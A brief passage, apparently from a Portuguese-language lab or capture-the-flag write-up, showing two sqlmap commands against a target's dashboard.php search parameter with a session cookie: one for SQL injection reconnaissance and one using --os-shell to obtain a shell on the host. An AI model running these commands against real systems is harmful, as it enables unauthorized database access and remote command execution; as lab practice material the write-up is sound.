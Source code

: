 ```sh
sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query'--cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1"
```
Aqui ele faz meio que um reconhecimento, descobre é qual banco, se tem alguma vulnerabilidade e etc.

```sh
sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --
cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1" --os-shell
```
Aqui ele tenta obter um shell no host.
